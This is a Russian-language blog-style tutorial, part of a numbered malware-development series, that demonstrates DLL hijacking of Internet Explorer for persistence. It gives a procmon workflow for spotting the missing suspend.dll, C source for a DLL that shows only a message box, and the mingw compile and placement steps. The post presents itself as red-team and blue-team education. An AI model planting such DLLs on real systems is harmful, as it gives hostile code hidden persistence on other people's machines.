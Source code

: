 \newpage
\subsection{81. разработка вредоносного ПО: закрепление (persistence) - часть 15. Internet Explorer. Простой пример на C++.}

﷽


![pers](./images/75/2022-10-13_00-24_1.png){width="80%"}    

Этот пост является результатом моего собственного исследования одного из интересных трюков закрепления вредоносного ПО: через Internet Explorer.     

### internet explorer

В одном из моих [предыдущих постов](https://cocomelonc.github.io/pentest/2021/10/12/dll-hijacking-2.html) я писал о реальном примере DLL-подмены. На этот раз жертвой становится Internet Explorer. Конечно, многие из вас даже не используют его и вряд ли удаляли его намеренно из Windows.    

### практический пример

Как и в предыдущем посте, запустим [procmon](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) из sysinternals и установим следующие фильтры:    

![pers](./images/75/2022-10-13_00-03.png){width="80%"}    

Затем запустим `Internet Explorer`:     

![pers](./images/75/2022-10-13_00-04.png){width="80%"}    

![pers](./images/75/2022-10-13_00-04_1.png){width="80%"}    

Как видно, процесс `iexplore.exe` не находит несколько DLL, которые потенциально можно использовать для DLL-подмены. Например, `suspend.dll`:     

![pers](./images/75/2022-10-13_00-05.png){width="80%"}    

Давайте попробуем найти другие возможные местоположения, возможно, у нас есть легитимная версия этой DLL:    

```powershell
cd C:\
dir /b /s suspend.dll
```

![pers](./images/75/2022-10-13_00-09.png){width="80%"}    

Но, как видно, файл не найден, значит, эта DLL используется только Internet Explorer.    

Затем я подготовил "вредоносную" DLL с сообщением `meow-woof`:    

```cpp
/*
evil.c - malicious DLL
DLL hijacking. Internet Explorer
author: @cocomelonc
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  ul_reason_for_call, 
LPVOID lpReserved) {
    switch (ul_reason_for_call)  {
    case DLL_PROCESS_ATTACH:
      MessageBox(
        NULL,
        "Meow-woof!",
        "=^..^=",
        MB_OK
      );
      break;
    case DLL_PROCESS_DETACH:
      break;
    case DLL_THREAD_ATTACH:
      break;
    case DLL_THREAD_DETACH:
      break;
    }
    return TRUE;
}
```

### демонстрация

Давайте посмотрим, как все работает на практике. Компилируем нашу вредоносную DLL:    

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.c
```

![pers](./images/75/2022-10-13_00-12.png){width="80%"}    

Затем переименовываем файл в `suspend.dll` и помещаем его в каталог, откуда загружается Internet Explorer:     

![pers](./images/75/2022-10-13_06-13.png){width="80%"}    

![pers](./images/75/2022-10-13_00-15.png){width="80%"}    

И, наконец, пробуем запустить наше целевое приложение:     

![pers](./images/75/2022-10-13_00-16_1.png){width="80%"}    

![pers](./images/75/2022-10-13_00-18.png){width="80%"}    

![pers](./images/75/2022-10-13_00-24.png){width="80%"}    

После закрытия всплывающего окна Internet Explorer продолжает работать, не завершается с ошибкой:    

![pers](./images/75/2022-10-13_00-16.png){width="80%"}    

Как можно видеть, все сработало. Идеально! =^..^=     

### заключение

Теперь мы добились закрепления через Internet Explorer.    

Именно поэтому этот пост относится к категории закрепления - наша вредоносная DLL будет запускаться каждый раз, когда пользователь открывает Internet Explorer. И также при его закрытии. Небольшой сюрприз для любителей Windows. Вам даже не нужно ничего устанавливать или удалять.    

Это также работает на `Windows 11 x64`:     

![pers](./images/75/2022-10-13_06-37.png){width="80%"}    

Хотя вряд ли кто-то запустит Internet Explorer в 2022 году, согласны?    

Как охотник за уязвимостями в Windows, если вы хотите найти уязвимости повышения привилегий в самой операционной системе, вам часто стоит начинать с чистого листа – с новой установки Windows.    

Я не знаю, использовалась ли эта тактика каким-либо APT в дикой природе, но надеюсь, что этот пост повысит осведомленность синих команд об этой интересной технике, особенно при создании программного обеспечения, и добавит оружие в арсенал красных команд.

[DLL hijacking](https://cocomelonc.github.io/pentest/2021/09/24/dll-hijacking-1.html)     
[DLL hijacking with exported functions](https://cocomelonc.github.io/pentest/2021/10/12/dll-hijacking-2.html)     
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-10-12-malware-pers-15)     
